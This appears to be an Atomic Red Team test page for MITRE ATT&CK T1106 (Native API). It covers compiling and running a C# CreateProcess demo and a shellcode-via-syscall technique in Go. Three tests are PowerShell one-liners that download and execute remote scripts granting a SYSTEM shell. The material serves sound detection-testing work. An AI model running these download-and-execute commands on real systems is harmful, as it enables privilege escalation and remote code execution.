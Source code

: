 ```yaml
---
tags: [T1106, atomic_test]
filename: "[[T1106|T1106 - Native API]]"
---
```

# T1106 - Native API

## Atomic Test #1 - Execution through API - CreateProcess
Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file | Location of the CSharp source file to compile and execute | path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs|
| output_file | Location of the payload | path | %tmp%&#92;T1106.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe "#{source_file}"
%tmp%/T1106.exe
```




#### Dependencies:  Run with `powershell`!
##### Description: #{source_file} must exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{source_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{source_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs" -OutFile "#{source_file}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```






<br/>
<br/>

## Atomic Test #5 - Run Shellcode via Syscall in Go
Runs shellcode in the current running process via a syscall.

Steps taken with this technique
1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
2. Use the RtlCopyMemory macro to copy the shellcode to the allocated memory space
3. Change the memory page permissions to Execute/Read with VirtualProtect
4. Use syscall to execute the entrypoint of the shellcode

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#syscall)

**Supported Platforms:** Windows


**auto_generated_guid:** ae56083f-28d0-417d-84da-df4242da1f7c






#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1106\bin\x64\syscall.exe -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
```





<br/>
